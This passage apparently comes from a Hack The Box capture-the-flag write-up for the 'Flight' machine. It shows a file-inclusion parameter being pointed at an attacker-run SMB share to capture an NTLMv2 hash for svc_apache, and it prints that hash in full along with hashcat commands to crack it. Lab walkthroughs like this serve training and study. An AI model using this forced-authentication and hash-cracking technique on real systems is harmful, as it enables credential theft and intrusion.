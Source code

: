 Examining the results, we can see that we got a valid result:

```shell
school.flight.htb
```

Lets add it to /etc/hosts:

```shell
echo "10.129.228.120 school.flight.htb" | sudo tee -a /etc/hosts
```

### LFI on school.flight.htb to capture the NTLMv2 hash of svc_apache using a SMB server

Lets examine the new vhost:

```shell
http://school.flight.htb/
```

If we click around, we will see that the URL of the website change like this:

```shell
http://school.flight.htb/index.php?view=home.html
http://school.flight.htb/index.php?view=about.html
http://school.flight.htb/index.php?view=blog.html
```

Examining the URL, we can see how the website interacts to get the pages, maybe we have a possible LFI vulnerability? Lets find it out!

Since its a Windows AD machine, I will create a SMB server on Kali and try to get a connection from the target machine to capture any NTLM hashes:

```shell
# Start SMB server on Kali
impacket-smbserver -smb2support kalishare .

# Enter the following URL on the web browser
http://school.flight.htb/index.php?view=//10.10.14.206/kalishare
```

Nice! We got a NTLMv2 hash in our running SMB server:

```shell
[*] User G0\svc_apache authenticated successfully
[*] svc_apache::flight:aaaaaaaaaaaaaaaa:2f09827e4d999aed87f103013253fc75:010100000000000080a4c91b613adb01ca7aabb2b203d22e00000000010010004900500048006100460066006700560003001000490050004800610046006600670056000200100049004a004200570047007000540041000400100049004a004200570047007000540041000700080080a4c91b613adb0106000400020000000800300030000000000000000000000000300000f14ec98eb174c7fff2d0b0a2341a17003ddae9abef30be4f3dc7809f913d88bc0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300036000000000000000000
[*] Closing down connection (10.129.228.120,49723)
```

Lets try to crack it:

```shell
# Put the hash into a text file and save it as svc_apache_hash.txt
echo 'svc_apache::flight:aaaaaaaaaaaaaaaa:2f09827e4d999aed87f103013253fc75:010100000000000080a4c91b613adb01ca7aabb2b203d22e00000000010010004900500048006100460066006700560003001000490050004800610046006600670056000200100049004a004200570047007000540041000400100049004a004200570047007000540041000700080080a4c91b613adb0106000400020000000800300030000000000000000000000000300000f14ec98eb174c7fff2d0b0a2341a17003ddae9abef30be4f3dc7809f913d88bc0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300036000000000000000000' > svc_apache_hash.txt

# Use hashcat to crack it
hashcat -m 5600 svc_apache_hash.txt /usr/share/wordlists/rockyou.txt
```
